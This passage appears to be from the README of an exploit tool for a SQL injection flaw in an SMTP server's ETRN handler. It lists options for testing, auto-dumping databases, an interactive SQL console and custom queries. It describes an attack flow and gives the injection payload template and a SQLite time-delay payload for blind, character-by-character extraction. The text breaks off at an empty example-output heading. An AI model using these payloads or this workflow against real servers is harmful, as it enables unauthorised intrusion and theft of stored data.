 ### Command-Line Options

| Option | Description |
|--------|-------------|
| `host` | Target hostname or IP address (required) |
| `-p, --port` | SMTP port (default: 25) |
| `-t, --timeout` | Socket timeout in seconds (default: 30) |
| `--threshold` | Time delay threshold for detection (default: 0.8s) |
| `--test-only` | Only test vulnerability, no data extraction |
| `--auto-dump` | Automatically dump database structure and data |
| `--interactive` | Launch interactive SQL query console |
| `--table TABLE` | Target specific table for extraction |
| `--columns` | Extract column names (use with --table) |
| `--query QUERY` | Execute custom SQL query |

## 🔍 How It Works

### Attack Flow

1. **Connection**: Establishes SMTP connection to target server
2. **Baseline Measurement**: Sends normal ETRN command to measure response time
3. **Injection Test**: Sends time-delay SQL payload to confirm vulnerability
4. **Data Extraction**: Uses binary search with time-based blind SQLi to extract data character-by-character

### SQL Injection Payload Structure

```sql
ETRN #',1); <MALICIOUS_QUERY> /*
```

The payload exploits improper sanitization in the ETRN serialization handler, allowing SQL injection into SQLite queries.

### Time-Based Detection

Uses SQLite-specific time delay:
```sql
SELECT 1 FROM tbl WHERE 1234=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
```

This creates a measurable delay (~1-2 seconds) when condition is true.

## 📊 Example Output
